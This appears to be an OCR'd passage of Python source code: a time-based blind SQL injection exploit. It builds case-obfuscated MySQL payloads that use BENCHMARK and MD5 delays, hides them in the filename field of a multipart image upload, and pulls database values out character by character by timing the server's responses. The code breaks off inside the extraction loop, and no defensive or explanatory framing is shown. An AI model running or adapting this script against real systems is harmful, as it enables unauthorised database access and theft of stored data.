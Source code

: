 ```py
    safe_char = char.replace("'", "''").replace("\\", "\\\\")
    return (
        f"sELECT CAsE WHEN MID((sELECT `{column_name}` FROM `{database_name}`.`{table_name}` "
        f"LIMIT {row_offset},1),{position},1)='{safe_char}' "
        f"THEN BENCHMArK(10000000,MD5(1)) ELSE 0 END-- "
    )

def test_char(position, char, payload_generator, *args):
    delay_count = 0
    max_attempts = 4

    for attempt in range(1, max_attempts + 1):
        payload = payload_generator(position, char, *args)
        boundary = '----' + ''.join(random.choices(string.hexdigits, k=32))
        body = (
            f"--{boundary}\r\n"
            f'Content-Disposition: form-data; name="file"; filename="{payload}.png"\r\n'
            "Content-Type: image/png\r\n\r\n"
        ).encode() + PNG_DATA + (
            f"\r\n--{boundary}\r\n"
            f'Content-Disposition: form-data; name="upload"\r\n\r\n'
            f"Upload\r\n"
            f"--{boundary}--\r\n"
        ).encode()

        headers["Content-Type"] = f"multipart/form-data; boundary={boundary}"
        headers["Content-Length"] = str(len(body))

        try:
            start_time = time.time()
            requests.post(url, data=body, headers=headers, timeout=15, proxies=proxy, verify=False)
            elapsed = time.time() - start_time

            if elapsed > 3:
                delay_count += 1
                if delay_count >= 2:
                    return True

        except requests.exceptions.Timeout:
            delay_count += 1
            if delay_count >= 2:
                return True

    return False

def extract_value(name, payload_generator, chars, *args):
    value = ""
    position = 1
    extraction_start = time.time()
    consecutive_skips = 0
    max_consecutive_skips = 2

    print(f"[+] Extracting: {name}")

    while True:
        found_char = None

        for char in sorted(chars, key=lambda c: ord(c)):
            if test_char(position, char, payload_generator, *args):
                value += char
                print(f"  [*] Found: {char} → Current: '{value}'")
                found_char = char
                consecutive_skips = 0
```